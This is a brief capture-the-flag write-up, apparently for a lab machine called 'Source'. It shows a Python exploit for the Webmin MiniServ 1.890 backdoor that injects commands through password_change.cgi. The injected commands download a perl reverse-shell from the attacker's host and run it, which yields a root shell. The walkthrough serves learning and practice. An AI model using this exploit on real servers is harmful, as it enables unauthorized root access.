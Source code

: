 # Source

`nmap` found two open ports for us.

> 22 ssh<br>
> 10000 snet-sensor-mgmt MiniServ 1.890 (Webmin httpd)<br>

I went to https://source.thm:10000 and found there:<br>
![webmin](./imgs/webmin.png)

I looked for `MiniServ 1.890 exploit` in google and found a python script, which turned out to work.<br>

Then I changed the script a little bit in order that I understand it and have more control over it.<br>
Also, I found a good perl `reverse-shell`, set up an nc listener on port 2222 and ran my new script.
```
import os

target = "source.thm"
port = "10000"
url = "https://"+target+":"+port+"/password_change.cgi"

rhost = "10.2.116.12"
rport = 2222

command1 = "curl -o perl_shell.pl http://10.2.116.12:8000/perl_shell.pl"
command2 = "perl perl_shell.pl"

header = f'Referer: https://{target}:{port}/session_login.cgi'

payload = f'user=gotroot&pam=&expired=2|echo "";{command1}'
os.system(f"curl -k {url} -d '{payload}' -H '{header}'")

payload = f'user=gotroot&pam=&expired=2|echo "";{command2}'
os.system(f"curl -k {url} -d '{payload}' -H '{header}'")
```
Then
```
python3 my_exp.py
```
And the nc listener will get you a root reverse-shell.
